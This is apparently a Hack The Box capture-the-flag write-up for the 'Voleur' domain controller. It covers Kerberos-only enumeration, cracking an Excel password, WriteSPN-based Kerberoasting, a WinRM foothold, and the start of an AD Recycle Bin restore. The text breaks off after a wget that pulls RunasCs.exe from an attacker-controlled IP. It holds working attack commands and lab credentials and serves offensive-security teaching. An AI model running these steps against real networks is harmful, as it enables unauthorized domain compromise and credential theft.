# HTB - Voleur

**IP Address:** `10.129.232.130`  
**OS:** `Windows Server (Domain Controller) + WSL Ubuntu SSH :2222`  
**Difficulty:** `Medium`  
**Tags:** #ActiveDirectory #NTLMDisabled #Kerberos #BloodHound #WriteSPN #Kerberoasting #DPAPI #ADRecycleBin #WSL #NTDS

---
## Synopsis

Voleur is a Domain Controller (`DC.voleur.htb`) with NTLM disabled, so every authenticated step must use Kerberos. Starting credentials `ryan.naylor:HollowOct31Nyt` grant read on the `IT` share; BloodHound shows Ryan in First-Line Technicians. A password-protected `Access_Review.xlsx` (cracked to `football1`) leaks service-account passwords and notes about a deleted second-line user. `svc_ldap` has **WriteSPN** on `svc_winrm` (and sits in `RESTORE_USERS` with GenericWrite toward Lacey / Second-Line OU). Setting an SPN and Kerberoasting yields a crackable hash for `svc_winrm`, who is in Remote Management Users — WinRM shell and user flag. From there, restore deleted `todd.wolfe` via the AD Recycle Bin, read his archived profile under `IT\Second-Line Support`, decrypt DPAPI to recover `jeremy.combs` credentials, pull an SSH key for `svc_backup` from Third-Line Support, SSH into WSL on port 2222, and dump offline `ntds.dit` + registry hives from a backup folder to obtain Domain Admin.

---
## Skills Required

- Active Directory enumeration with Kerberos-only auth (`NTLM:False`)
- BloodHound / collector-style ACL analysis
- Basic SMB loot and Office hash cracking

## Skills Learned

- Forced Kerberos workflows (`-k`, FQDN, `krb5` config, clock sync)
- WriteSPN → targeted Kerberoasting
- AD Recycle Bin restore to recover deleted users
- Offline DPAPI (masterkey + credential) from archived profiles
- WSL SSH foothold → readable NTDS backups

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

Check if the host is alive using ICMP:

```bash
ping -c 1 10.129.232.130
```



TTL `127` is consistent with a Windows host one hop away.

---
### 1.2 Port Scanning

Scan all TCP ports to identify open services:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.232.130 -oG allPorts
```

- `-p-` : Scan all 65,535 ports  
- `--open` : Show only open ports  
- `-sS` : SYN scan (stealthy and fast)  
- `--min-rate 5000` : Increase scan speed  
- `-Pn` : Skip host discovery  
- `-oG` : Output in grepable format  



Extract the open ports:

```bash
extractPorts allPorts
```



Open ports include the usual AD DC set, **5985/tcp (WinRM)**, and **2222/tcp** (later identified as OpenSSH).

---
### 1.3 Targeted Scan

Run a deeper scan on the identified ports with version detection and default scripts:

```bash
nmap -sCV -p53,88,135,139,389,445,464,593,636,2222,3268,3269,5985,9389,49664,49668,61062,61063,61066,61091 10.129.232.130 -oN targeted
cat targeted
```

- `-sC` : Run default NSE scripts  
- `-sV` : Detect service versions  
- `-oN` : Output in human-readable format  




**Findings:**

| Port(s) | Service | Notes |
|---|---|---|
| 53 | DNS | Simple DNS Plus |
| 88 / 464 | Kerberos | Microsoft Kerberos; large clock skew (~8h) |
| 135 / 139 / 445 | MSRPC / SMB | Signing enabled and required |
| 389 / 636 / 3268 / 3269 | LDAP | Domain `voleur.htb`; host `DC` |
| 2222 | SSH | OpenSSH 8.2p1 Ubuntu (WSL) |
| 5985 | WinRM | Microsoft HTTPAPI |
| 9389 | ADWS | Active Directory Web Services |

Map the FQDN and sync time before Kerberos (needs privileges to step the clock):

```bash
echo '10.129.232.130 DC.voleur.htb voleur.htb DC' | sudo tee -a /etc/hosts
sudo ntpdate 10.129.232.130
```



Generate a Kerberos client config for the realm:

```bash
nxc smb DC.voleur.htb --generate-krb5-file voleur.htb
```



---
## 2. Service Enumeration

### 2.1 Starting Credentials and SMB Shares

The lab provides initial domain credentials. Store them and authenticate with Kerberos against the FQDN:

```bash
# creds.txt
ryan.naylor:HollowOct31Nyt

nxc smb DC.voleur.htb -u ryan.naylor -p 'HollowOct31Nyt' -k
nxc ssh DC.voleur.htb --port 2222 -u ryan.naylor -p 'HollowOct31Nyt'
nxc smb DC.voleur.htb -u ryan.naylor -p 'HollowOct31Nyt' -k --shares
```






Ryan authenticates over SMB Kerberos and can **READ** `IT`, `NETLOGON`, `SYSVOL`, and `IPC$`. SSH on 2222 rejects the password. `Finance` / `HR` / admin shares are not accessible.

---
### 2.2 BloodHound Collection

Collect LDAP relationships for path finding (SMB/SYSVOL collection may fail under NTLM-off; LDAP still works):

```bash
rusthound-ce -d voleur.htb -u ryan.naylor -p 'HollowOct31Nyt'
```



BloodHound shows Ryan as a member of **First-Line Technicians**:



---
### 2.3 `IT` Share — `Access_Review.xlsx`

First-Line access maps to loot under `IT\First-Line Support`. The workbook is password-protected:

```bash
smbclient --realm=voleur.htb -U 'voleur.htb/ryan.naylor%HollowOct31Nyt' //dc.voleur.htb/IT
# cd "First-Line Support"
# get Access_Review.xlsx
```




Crack the Office hash:

```bash
office2john Access_Review.xlsx > access_review.hash
john --wordlist=/usr/share/wordlists/rockyou.txt access_review.hash
# football1
```



Now we can open the .xlsx file:



**Recovered from the sheet (high signal):**

| Account | Note |
|---|---|
| `svc_ldap` | Password `M1XyC9pW7qT5Vn` |
| `svc_iis` | Password `N5pXyW1VqM7CZ8` |
| `todd.wolfe` | Leaver; password reset to `NightT1meP1dg3on14`; **account deleted** |
| `svc_winrm` | Remote Management; password recently reset by Lacey |
| `svc_backup` | “Speak to Jeremy” |

Validate service accounts over Kerberos; Todd fails because the principal is deleted:

```bash
nxc ldap DC.voleur.htb -u svc_ldap -p 'M1XyC9pW7qT5Vn' -k
nxc smb DC.voleur.htb -u todd.wolfe -p 'NightT1meP1dg3on14' -k
nxc smb DC.voleur.htb -u svc_iis -p 'N5pXyW1VqM7CZ8' -k
```





---
## 3. Foothold

### 3.1 BloodHound - svc_ldap Abuse Paths

Re-query BloodHound after authenticating as `svc_ldap` to surface outbound ACL edges from that principal:

```text
WriteSPN -> svc_winrm
MemberOf RESTORE_USERS -> GenericWrite on Lacey / Second-Line OU
```



---
### 3.2 WriteSPN → Kerberoast `svc_winrm`

Register a fake SPN on `svc_winrm`, then request a TGS:

```bash
bloodyAD -d voleur.htb --host dc.voleur.htb \
  -u svc_ldap -p 'M1XyC9pW7qT5Vn' -k \
  set object svc_winrm servicePrincipalName -v 'HTTP/H4ck3d'

nxc ldap DC.voleur.htb -u svc_ldap -p 'M1XyC9pW7qT5Vn' --kerberoast -k
```




Crack the `$krb5tgs$23$` hash:

```bash
hashcat -m 13100 svc_winrm.tgs /usr/share/wordlists/rockyou.txt
# AFireInsidedeOzarctica980219afi
```



---
### 3.3 WinRM as `svc_winrm` — User Flag

`svc_winrm` is in **Remote Management Users**. Request a TGT and open WinRM (Kerberos only):

```bash
impacket-getTGT 'voleur.htb/svc_winrm:AFireInsidedeOzarctica980219afi' -dc-ip 10.129.232.130
KRB5CCNAME=svc_winrm.ccache evil-winrm -i dc.voleur.htb -r voleur.htb
```



```powershell
cd ../Desktop
type user.txt
```



🏁 **User flag obtained**

---
## 4. Privilege Escalation

### 4.1 Restore Deleted `todd.wolfe` (`RESTORE_USERS`)

BloodHound showed `svc_ldap` is in **RESTORE_USERS**, which can bring deleted principals back from the AD Recycle Bin. The Access Review sheet already gave Todd’s leaver password (`NightT1meP1dg3on14`), so restoring the object should make that password usable again — and Todd sits in Second-Line, which we still cannot read as First-Line / `svc_winrm`.

`svc_winrm` does not hold `RESTORE_USERS` itself. From the WinRM shell, upload **RunasCs** so we can spawn a process as `svc_ldap` (password known from the spreadsheet) and run the restore under that identity:

```powershell
# evil-winrm as svc_winrm
wget http://10.10.15.14/RunasCs.exe -O RunasCs.exe
```

